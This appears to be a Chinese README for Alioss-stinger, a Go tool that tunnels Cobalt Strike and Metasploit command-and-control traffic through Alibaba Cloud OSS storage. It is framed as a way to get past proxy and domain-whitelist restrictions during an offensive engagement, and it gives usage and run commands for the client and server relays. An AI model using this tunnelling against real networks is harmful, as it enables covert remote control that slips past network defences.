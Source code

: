 # Alioss-stinger

利用阿里云oss对象存储，来转发http流量实现（cs）Cobalt Strike、msf 上线等

这之间利用阿里云的相关域名进行通信。

## 背景

在某次攻防中，内部通过代理服务器上网，且不能访问ip，域名白名单，刚好阿里云、腾讯云在其中，看到github上有个师傅写过的一些腾讯云的代码，但是有个问题，腾讯云的官方库好像不支持认证功能，于是我就照着这个师傅的代码改成了阿里云的版本。

参考：https://github.com/9bie/oss-stinger

修改39行就好，加入内网代理服务器

```
ossClient, err = oss.New(endPoint, accessKeyId, accessKeySecret, oss.AuthProxy("http://127.0.0.1:8080", "", ""))
```

## 如何使用

```
PS C:\Users\xxx\Desktop\github\goalioss-stinger> go run .\main.go -h
Usage of C:\Users\xxx\AppData\Local\Temp\go-build3967568892\b001\exe\main.exe:
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080
  -mode string
        client/server 二选一
  -osskey string
        format: endpoint:accessKeyId:accessKeySecret:bucketName
```

### CS

生成监听本地127.0.0.1:8001的木马：

![image-20221214185423368](README.assets/image-20221214185423368.png)

### 服务端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode server -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

### 客户端运行

```
.\alioss-stinger.exe -address 127.0.0.1:8001 -mode client -osskey endpoint:accessKeyId:accessKeySecret:bucketName
```

![image-20221214185022534](README.assets/image-20221214185022534.png)

# 阿里云安全配置
按照这个配置就可以了。
https://www.yuque.com/pant0m/netsecnote/kyqg65wkmxycfhei

